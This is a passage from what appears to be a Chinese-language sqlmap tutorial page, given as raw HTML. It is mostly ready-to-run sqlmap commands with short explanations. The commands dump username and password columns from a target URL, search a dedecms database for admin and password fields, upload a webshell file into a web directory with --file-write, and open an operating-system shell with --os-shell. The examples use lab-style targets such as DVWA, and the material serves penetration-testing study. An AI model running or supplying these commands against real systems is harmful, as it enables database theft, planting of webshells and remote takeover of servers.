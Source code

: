 <p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	sqlmap -u "http://www.vuln.cn/post.php?id=1" &nbsp;--dbms mysql --level 3 -D test -T admin -C "username,password" --dump
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	dump出字段username与password中的数据
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	其他命令参考下面
</p>
<h3 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	从数据库中搜索字段
</h3>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	sqlmap -r "c:\tools\request.txt" --dbms mysql -D dedecms --search -C admin,password<br />
在dedecms数据库中搜索字段admin或者password。
</p>
<h3 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	读取与写入文件
</h3>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	首先找需要网站的物理路径，其次需要有可写或可读权限。
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	--file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）<br />
--file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）<br />
--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径<br />
#示例：<br />
sqlmap -r "c:\request.txt" -p id --dbms mysql --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	使用shell命令：
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	sqlmap -r "c:\tools\request.txt" -p id --dms mysql --os-shell<br />
接下来指定网站可写目录：<br />
“E:\php\htdocs\dvwa”
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）
</p>
<h2 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	sqlmap详细命令：
</h2>
<ul style="margin:10px 20px;padding:0px;list-style:none;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	<li style="list-style:square;margin-left:15px;color:#666666;">
		--is-dba 当前用户权限（是否为root权限）
	</li>
	<li style="list-style:square;margin-left:15px;color:#666666;">
		--dbs 所有数据库